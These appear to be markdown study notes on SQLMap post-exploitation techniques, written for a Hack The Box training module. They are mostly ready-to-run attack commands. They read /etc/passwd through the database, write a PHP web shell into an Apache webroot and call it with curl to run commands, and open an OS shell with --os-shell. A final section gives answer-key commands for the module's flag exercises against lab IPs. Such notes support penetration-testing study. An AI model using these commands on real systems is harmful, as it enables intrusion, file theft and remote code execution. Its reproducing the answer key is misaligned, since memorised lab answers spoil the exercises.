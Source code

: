 ## OS Exploitation
### File Read/Write
example:
``` mysql
LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;
```
* Checking for DBA Privileges
``` bash 
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```
* Reading Local Files
	* in `MySql`, to read local files, the DB user must have the privilege to `LOAD DATA` and `INSERT`, to be able to load the content of a file to a table and then reading that table.
``` bash
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```
* Writing Local Files
``` bash
# If the server side is using PHP
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Write this file on the remote server, default server webroot for Apache:
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"

# Access the remote PHP shell, and execute a sample command:
curl http://www.example.com/shell.php?cmd=ls+-la
```
### OS Command Execution
To get an OS shell with SQLMap, we can use the `--os-shell` option, as follows:
``` bash
sqlmap -u "http://www.example.com/?id=1" --os-shell

# If there is no output from our command, try to specify another technique that has a better chance of giving us direct output
sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```
---
## HTB module answers
* flag2
``` bash
sqlmap -r req.txt --batch --dump
```
* flag3
``` bash
sqlmap -u http://159.65.95.114:31469/case3.php --cookie='id=1*' --dump --batch
```
*  flag4
``` bash
sqlmap -r req.txt
```
* flag5
``` bash
sqlmap -u http://159.65.95.114:32275/case5.php?id=1 --risk=3 --level=5 -T flag5 --no-cast --batch --dump
```
* flag6
```bash
sqlmap http://159.65.95.114:31761/case6.php?col=id --random-agent --batch --dump --prefix="')" --level=5 --risk=3
```
* flag7
```bash
sqlmap -r req.txt --union-cols=5 --dump
```
